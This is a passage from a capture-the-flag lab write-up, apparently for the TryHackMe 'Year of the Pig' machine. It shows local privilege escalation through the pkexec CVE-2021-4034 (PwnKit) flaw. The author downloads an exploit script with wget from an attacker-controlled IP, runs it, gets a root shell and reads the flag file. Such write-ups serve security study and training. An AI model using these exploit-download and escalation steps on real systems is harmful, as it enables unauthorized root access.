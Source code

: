 ```bash
marco@year-of-the-pig:~$ /usr/bin/pkexec --version
pkexec version 0.105
marco@year-of-the-pig:~$
```
{: .nolineno}

Lets upload our payload here ⏬

```bash
marco@year-of-the-pig:~$ wget http://10.11.75.200/pkexec_CVE-2021-4034.py
--2024-03-27 14:44:25--  http://10.11.75.200/pkexec_CVE-2021-4034.py
Connecting to 10.11.75.200:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3067 (3.0K) [text/x-python]
Saving to: ‘pkexec_CVE-2021-4034.py’

pkexec_CVE-2021-4034.py        100%[==================================================>]   3.00K  --.-KB/s    in 0.002s  

2024-03-27 14:44:26 (1.86 MB/s) - ‘pkexec_CVE-2021-4034.py’ saved [3067/3067]

marco@year-of-the-pig:~$ chmod +x pkexec_CVE-2021-4034.py 
marco@year-of-the-pig:~$ python3 pkexec_CVE-2021-4034.py 
Do you want to choose a custom payload? y/n (n use default payload)  n
[+] Cleaning pervious exploiting attempt (if exist)
[+] Creating shared library for exploit code.
[+] Finding a libc library to call execve
[+] Found a library at <CDLL 'libc.so.6', handle 7fe8772f7000 at 0x7fe8771787b8>
[+] Call execve() with chosen payload
[+] Enjoy your root shell
# whoami
root
# /bin/bash -i
root@year-of-the-pig:/home/marco# cd /root
root@year-of-the-pig:/root# ls -al
total 36
drwx------  5 root root 4096 Aug 22  2020 .
drwxr-xr-x 22 root root 4096 Aug 16  2020 ..
lrwxrwxrwx  1 root root    9 Aug 16  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Aug 16  2020 .cache
drwx------  3 root root 4096 Aug 16  2020 .gnupg
drwxr-xr-x  3 root root 4096 Aug 21  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   42 Aug 16  2020 .vimrc
-r--------  1 root root   38 Aug 22  2020 root.txt
root@year-of-the-pig:/root# cat root.txt
THM{FLAG_FLAG_FLAG_FLAG_FLAG_FLAG}
root@year-of-the-pig:/root# 
```
{: .nolineno}
I am root now !!